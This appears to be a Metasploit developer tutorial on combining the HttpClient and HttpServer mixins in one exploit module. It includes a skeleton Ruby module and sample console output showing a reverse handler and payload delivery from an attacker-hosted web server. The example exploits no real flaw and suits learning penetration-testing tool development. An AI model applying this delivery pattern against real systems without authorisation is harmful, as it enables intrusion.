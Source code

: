 Using multiple networking mixins in a Metasploit module is always a tricky thing to do, because most likely you will run into issues like overlapping datastore options, variables, methods, the super call is only meant for one mixin, etc. This is considered as advanced module development, and sometimes can be rather painful to figure out on your own. To improve the Metasploit development experience, we have a few examples to demonstrate common scenarios that require you to use multiple mixins to achieve exploitation. 

### Today's lesson: Send a HTTP request to attack the target machine, and use a HttpServer for payload delivery.

Say you want to exploit a web server or web application. You have code execution on the box, but you need to find a way to deliver the final payload (probably an executable), and a HTTP server happens to be your option.

Here is how you can set it up:

```ruby

##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HttpServer::HTML

  def initialize(info={})
    super(update_info(info,
      'Name'           => "HttpClient and HttpServer Example",
      'Description'    => %q{
        This demonstrates how to use two mixins (HttpClient and HttpServer) at the same time,
        but this allows the HttpServer to terminate after a delay.
      },
      'License'        => MSF_LICENSE,
      'Author'         => [ 'sinn3r' ],
      'References'     =>
        [
          ['URL', 'http://metasploit.com']
        ],
      'Payload'        => { 'BadChars' => "\x00" },
      'Platform'       => 'win',
      'Targets'        =>
        [
          [ 'Automatic', {} ],
        ],
      'Privileged'     => false,
      'DisclosureDate' => "Dec 09 2013",
      'DefaultTarget'  => 0))

      register_options(
        [
          OptString.new('TARGETURI', [true, 'The path to some web application', '/']),
          OptInt.new('HTTPDELAY',    [false, 'Number of seconds the web server will wait before termination', 10])
        ], self.class)
  end

  def on_request_uri(cli, req)
    print_status("#{peer} - Payload request received: #{req.uri}")
    send_response(cli, 'You get this, I own you')
  end

  def primer
    print_status("Sending a malicious request to #{target_uri.path}")
    send_request_cgi({'uri'=>normalize_uri(target_uri.path)})
  end

  def exploit
    begin
      Timeout.timeout(datastore['HTTPDELAY']) { super }
    rescue Timeout::Error
      # When the server stops due to our timeout, this is raised
    end
  end
end
```

Here's what happens when you run the above example:

1. The super call wrapped in the Timeout block will start the web server.
2. Before the web server is in the infinite loop state, the primer() method is called, which is where you send your malicious requests to get code execution.
3. Your HttpServer serves the final payload upon request.
4. After 10 seconds, the module raises a Timeout exception. The web server finally terminates.

In case you're wondering why the web server must terminate after a period of time, this is because if the module fails to gain code execution on the target machine, obviously it will never ask your web server for the malicious payload, therefore there is no point to keeping it alive forever. Typically it shouldn't take a very long time to get a payload request, either, so we keep the timeout short.

The output for the above example should look something like this:

```
msf exploit(test) > run
[*] Exploit running as background job.

[*] Started reverse handler on 10.0.1.76:4444 
[*] Using URL: http://0.0.0.0:8080/SUuv1qjZbCibL80
[*]  Local IP: http://10.0.1.76:8080/SUuv1qjZbCibL80
[*] Server started.
[*] Sending a malicious request to /
msf exploit(test) >
[*] 10.0.1.76        test - 10.0.1.76:8181 - Payload request received: /SUuv1qjZbCibL80
[*] Server stopped.

msf exploit(test) >
```

### Related Articles:

* [[How to Send an HTTP Request Using HTTPClient]]
* [[How to write a browser exploit using HttpServer]]
* <https://community.rapid7.com/community/metasploit/blog/2012/12/17/metasploit-hooks>
